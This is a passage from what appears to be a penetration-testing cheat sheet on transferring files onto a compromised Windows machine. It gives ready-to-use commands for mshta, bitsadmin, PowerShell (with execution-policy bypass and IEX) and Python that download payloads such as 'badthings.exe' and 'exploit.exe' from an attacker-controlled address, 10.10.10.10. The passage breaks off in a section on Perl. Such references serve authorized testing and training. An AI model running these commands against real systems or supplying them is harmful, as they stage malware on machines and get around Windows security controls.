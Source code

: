 #### Transfering Files using MSHTA

Mshta.exe is a utility that executes Microsoft HTML Applications (HTA). And it can also be used to transfer files :D

- HTML
  `C:\>mshta http://10.10.10.10/badthings.exe`
- FTP
  `C:\>mshta ftp://10.10.10.10:21/badthings.exe`

#### Trasfering Files using Bitsadmin

Background Intelligent Transfer Service (BITS) is a component of Microsoft Windows XP and later iterations of the operating systems, which facilitates asynchronous, prioritized, and throttled transfer of files between machines using idle network bandwidth. BITSAdmin is a command-line tool that you can use to create download or upload jobs and monitor their progress. For full, comprehensive documentation of the tool and all of its commands, see bitsadmin and bitsadmin examples in the Windows IT Pro Center.
  `bitsadmin /transfer badthings http://10.10.10.10:80/badthings.exe c:\users\public\payload.exe`

#### Uploading Files with PowerShell

- Test to see if we can run Powershell:
  `@"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "get-host"`

- Test to see if we can run Powershell Version 2:
  `@"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -Version 2 -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "$PSVersionTable"`

- Try to download a file from a remote server to the windows temp folder from the Windows command line:
  `@"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "(New-Object System.Net.WebClient).DownloadFile(\"http://10.10.10.10/exploit.exe\", \"C:\\Users\\Public\\Downloads\\exploit.exe\")"`

- Or from a PowerShell... shell:
  `IEX(New-Object System.Net.WebClient).DownloadFile(\"http://10.10.10.10/exploit.exe\", \"C:\\Users\\Public\\Downloads\\exploit.exe\")"`

- OR This one seems to work better while at the console:
  `IEX(New-Object System.Net.WebClient).DownloadFile("http://10.10.10.10/exploit.exe", "C:\Users\Public\Downloads\exploit.exe")`

#### Uploading Files with Python

Sometimes a Windows machine will have development tools like Python installed. Check for python: `python -h`

- Download a file using Python:
  `python -c "import urllib.request; urllib.request.urlretrieve('http://10.10.10.10/cat.jpg', 'C:\\Users\\Public\\Downloads\\cat.jpg');"`

#### Uploading Files with Perl

- Sometimes a Windows machine will have development tools like PERL installed. Check for PERL
  `perl -v`

